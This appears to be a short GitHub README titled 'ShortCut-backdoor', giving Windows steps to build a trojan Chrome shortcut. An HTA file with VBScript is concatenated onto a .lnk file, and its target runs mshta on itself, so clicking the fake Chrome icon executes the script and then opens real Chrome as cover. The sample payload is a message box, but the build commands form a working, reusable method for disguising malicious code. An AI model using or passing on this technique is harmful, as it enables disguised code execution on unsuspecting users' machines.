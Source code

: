 # ShortCut-backdoor (Windows)

Tested on Windows 11

* 1  Create a chrome shortcut named exploit
* 2- Create a code.hta file to execute code, for example:
  ```vb
  <hta:application windowstate="minimize">
  <script language="VBScript">
  MsgBox "HACKED!"
  Close
  Set shell = CreateObject("WScript.Shell")
  shell.Run """C:\Program Files\Google\Chrome\Application\chrome.exe""", 0, False
  Close
  </script>
  ```
* 3- On exploit shortcut, change proprieties:
  ```
  Target: cmd /c mshta %CD%\Chrome.lnk
  Start In: C:\Users\<your-user>\Desktop
  
  And change icon if you desire
  ```
* 3- To build: On cmd:
  ```
  copy /b C:\Users\<your-user>\Desktop\exploit.lnk+code.hta Chrome.lnk
  ```


## Images
  <img src="https://i.imgur.com/pdjQGot.png">
